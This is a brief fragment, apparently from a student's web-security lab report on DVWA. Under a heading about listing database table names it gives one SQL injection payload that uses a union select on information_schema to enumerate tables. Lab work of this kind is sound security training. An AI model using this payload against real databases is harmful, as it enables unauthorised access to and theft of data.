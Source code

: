  ![image-20250625143902407](./images/web%E6%9C%9F%E6%9C%AB%E5%AE%9E%E8%AE%AD.assets/image-20250625143902407.png)



数据库中的表名

```
1' or 1 = 1 union select 'info',table_name FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'dvwa' #
```
